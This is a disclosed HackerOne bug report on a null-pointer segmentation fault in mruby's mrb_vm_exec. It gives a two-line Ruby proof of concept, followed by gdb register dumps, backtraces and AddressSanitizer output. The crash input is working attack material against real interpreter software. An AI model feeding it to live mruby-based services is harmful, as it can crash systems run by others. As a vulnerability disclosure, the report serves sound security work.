 # SIGSEGV in mrb_vm_exec

## Report Details
- **Report ID**: 217097
- **URL**: https://hackerone.com/reports/217097
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-29T20:41:17.885Z
- **Disclosed**: 2017-05-13T21:27:57.430Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_mrb_vm_exec.rb):

	def method_missing(meth,*args)yield(meth,args)end
	enum_for.next

Debug - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mirb
	rReading symbols from ./mirb...done.
	(gdb) r test_mrb_vm_exec.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mirb test_mrb_vm_exec.rb
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000407239 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5470, pc=0x0) at /home/x/Desktop/test/mruby/src/vm.c:1281
	1281	        JUMP;
	(gdb) info reg
	rax            0x0	0
	rbx            0x7213e0	7476192
	rcx            0x71b910	7452944
	rdx            0x6b73f0	7042032
	rsi            0x6b73f0	7042032
	rdi            0x6b0010	7012368
	rbp            0x7fffffffc930	0x7fffffffc930
	rsp            0x7fffffffc360	0x7fffffffc360
	r8             0x0	0
	r9             0x7ffff7acd7b8	140737348687800
	r10            0x8	8
	r11            0x7ffff7895770	140737346361200
	r12            0x401ca0	4201632
	r13            0x7fffffffdf30	140737488346928
	r14            0x0	0
	r15            0x0	0
	rip            0x407239	0x407239 <mrb_vm_exec+7691>
	eflags         0x10246	[ PF ZF IF RF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) l
	1276	        }
	1277	        mrb->c->stack[0] = result;
	1278	        mrb->c->stack = ci->stackent;
	1279	        pc = ci->pc;
	1280	        cipop(mrb);
	1281	        JUMP;
	1282	      }
	1283	      else {
	1284	        /* setup environment for calling method */
	1285	        proc = mrb->c->ci->proc = m;
	(gdb) x/x $rax
	0x0:	Cannot access memory at address 0x0

Backtrace - mirb
-------------------

	(gdb) bt
	#0  0x0000000000407239 in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5470, pc=0x0) at /home/x/Desktop/test/mruby/src/vm.c:1281
	#1  0x000000000040542c in mrb_vm_run (mrb=0x6b0010, proc=0x6b22f0, self=..., stack_keep=1) at /home/x/Desktop/test/mruby/src/vm.c:823
	#2  0x0000000000402b90 in main (argc=2, argv=0x7fffffffdf38) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549
	

Clang - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ ASAN_SYMBOLIZER_PATH=//usr/lib/llvm-3.8/bin/llvm-symbolizer ../../clang/mruby/bin/mirb test_mrb_vm_exec.rb 
	mirb - Embeddable Interactive Ruby Shell

	 => :method_missing
	ASAN:DEADLYSIGNAL
	=================================================================
	==5574==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x0000004f7921 bp 0x7fff098ef1c0 sp 0x7fff098ee430 T0)
		#0 0x4f7920 in mrb_vm_exec /home/x/Desktop/test/clang/mruby/src/vm.c:1281:9
		#1 0x4f5bae in mrb_vm_run /home/x/Desktop/test/clang/mruby/src/vm.c:823:10
		#2 0x4f3010 in main /home/x/Desktop/test/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:549:18
		#3 0x7fabf5c9dec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#4 0x41a575 in _start (/home/x/Desktop/test/clang/mruby/bin/mirb+0x41a575)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/test/clang/mruby/src/vm.c:1281:9 in mrb_vm_exec
	==5574==ABORTING

Debug - mruby
-------------------

	Desktop/test/mruby/bin$ gdb -q ./mruby
	Reading symbols from ./mruby...done.
	(gdb) r test_mrb_vm_exec.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mruby test_mrb_vm_exec.rb

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000441f92 in mrb_vm_exec (mrb=0x6af010, proc=0x6b4470, pc=0x0) at /home/x/Desktop/test/mruby/src/vm.c:1281
	1281	        JUMP;
	(gdb) info reg
	rax            0x0	0
	rbx            0x720500	7472384
	rcx            0x71aa10	7449104
	rdx            0x6b63f0	7037936
	rsi            0x6b63f0	7037936
	rdi            0x6af010	7008272
	rbp            0x7fffffffdb30	0x7fffffffdb30
	rsp            0x7fffffffd560	0x7fffffffd560
	r8             0x0	0
	r9             0x7ffff7acd7b8	140737348687800
	r10            0x8	8
	r11            0x7ffff7895770	140737346361200
	r12            0x401b20	4201248
	r13            0x7fffffffdf30	140737488346928
	r14            0x0	0
	r15            0x0	0
	rip            0x441f92	0x441f92 <mrb_vm_exec+7691>
	eflags         0x10246	[ PF ZF IF RF ]
	cs             0x33	51
	ss             0x2b	43
	ds             0x0	0
	es             0x0	0
	fs             0x0	0
	gs             0x0	0
	(gdb) l
	1276	        }
	1277	        mrb->c->stack[0] = result;
	1278	        mrb->c->stack = ci->stackent;
	1279	        pc = ci->pc;
	1280	        cipop(mrb);
	1281	        JUMP;
	1282	      }
	1283	      else {
	1284	        /* setup environment for calling method */
	1285	        proc = mrb->c->ci->proc = m;
	(gdb) x/x $rax
	0x0:	Cannot access memory at address 0x0

Backtrace - mruby
-------------------

	(gdb) bt
	#0  0x0000000000441f92 in mrb_vm_exec (mrb=0x6af010, proc=0x6b4470, pc=0x0) at /home/x/Desktop/test/mruby/src/vm.c:1281
	#1  0x0000000000440185 in mrb_vm_run (mrb=0x6af010, proc=0x6b1350, self=..., stack_keep=0) at /home/x/Desktop/test/mruby/src/vm.c:823
	#2  0x0000000000448587 in mrb_top_run (mrb=0x6af010, proc=0x6b1350, self=..., stack_keep=0) at /home/x/Desktop/test/mruby/src/vm.c:2614
	#3  0x0000000000438e8d in mrb_load_exec (mrb=0x6af010, p=0x70cfa0, c=0x70bbf0) at /home/x/Desktop/test/mruby/mrbgems/mruby-compiler/core/parse.y:5760
	#4  0x0000000000438f23 in mrb_load_file_cxt (mrb=0x6af010, f=0x70cbe0, c=0x70bbf0) at /home/x/Desktop/test/mruby/mrbgems/mruby-compiler/core/parse.y:5769
	#5  0x0000000000402415 in main (argc=2, argv=0x7fffffffdf38) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227
	
Clang - mruby
-------------------

	x@x:~/Desktop/test/mruby/bin$ ASAN_SYMBOLIZER_PATH=//usr/lib/llvm-3.8/bin/llvm-symbolizer ../../clang/mruby/bin/mruby test_mrb_vm_exec.rb 
	ASAN:DEADLYSIGNAL
	=================================================================
	==6041==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x00000053ccb1 bp 0x7fff86500860 sp 0x7fff864ffad0 T0)
		#0 0x53ccb0 in mrb_vm_exec /home/x/Desktop/test/clang/mruby/src/vm.c:1281:9
		#1 0x53af3e in mrb_vm_run /home/x/Desktop/test/clang/mruby/src/vm.c:823:10
		#2 0x543a03 in mrb_top_run /home/x/Desktop/test/clang/mruby/src/vm.c:2614:12
		#3 0x52cbc0 in mrb_load_exec /home/x/Desktop/test/clang/mruby/mrbgems/mruby-compiler/core/parse.y:5760:7
		#4 0x52cd92 in mrb_load_file_cxt /home/x/Desktop/test/clang/mruby/mrbgems/mruby-compiler/core/parse.y:5769:10
		#5 0x4f2b83 in main /home/x/Desktop/test/clang/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227:11
		#6 0x7f4415861ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#7 0x41a4e5 in _start (/home/x/Desktop/test/clang/mruby/bin/mruby+0x41a4e5)

	AddressSanitizer can not provide additional info.
	SUMMARY: AddressSanitizer: SEGV /home/x/Desktop/test/clang/mruby/src/vm.c:1281:9 in mrb_vm_exec
	==6041==ABORTING

System information
-------------------

	SHA hash - 051e40c0493f2de332f5439e3230c9fe6958bf1a
	Linux 14.04 x86_64
	gcc version 4.8.4
	

## Attachments
- test_mrb_vm_exec.rb
